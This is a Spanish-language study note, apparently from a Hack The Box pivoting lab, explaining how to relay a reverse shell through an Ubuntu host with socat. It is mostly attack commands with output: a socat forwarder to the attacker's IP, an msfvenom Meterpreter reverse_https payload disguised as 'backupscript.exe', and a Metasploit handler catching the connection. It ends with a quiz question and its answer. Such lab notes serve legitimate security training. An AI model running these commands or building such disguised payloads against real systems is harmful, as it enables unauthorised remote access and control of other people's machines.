 Socat es una herramienta de retransmisión bidireccional que puede crear conectores entre dos canales de red independientes sin necesidad de usar túneles SSH. Actúa como un redirector que puede escuchar en un host y puerto y reenviar esos datos a otra dirección IP y puerto. 

Podemos iniciar el receptor de Metasploit usando el mismo comando mencionado en la sección anterior en nuestro host de ataque, y podemos iniciar Socat en el servidor Ubuntu.


## Inicializando el listiner Socat

Podemos inicializar el Socat con:

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```


Socat escuchará por el localport en el puerto 8080 y redireccionará todo el tráfico hacia 10.10.14.18:80.
Una vez que hayamos configurado el redirector SOCAT, podemos crear un payload que se conectará a nuestro redirector, que se ejecuta en nuestro servidor Ubuntu.

También iniciaremos un oyente en nuestro host de ataque porque tan pronto como socat reciba una conexión de un objetivo, redirigirá todo el tráfico al oyente de nuestro host de ataque, donde obtendremos un shell.

```shell-session
Polika4RM@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Ejecutamos msfconsole:
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

Y ejecutamos el payload "backupscript.exe" en nuestra máquina pivot UBUNTU.

---

**1. SSH tunneling is required with Socat. True or False?**
False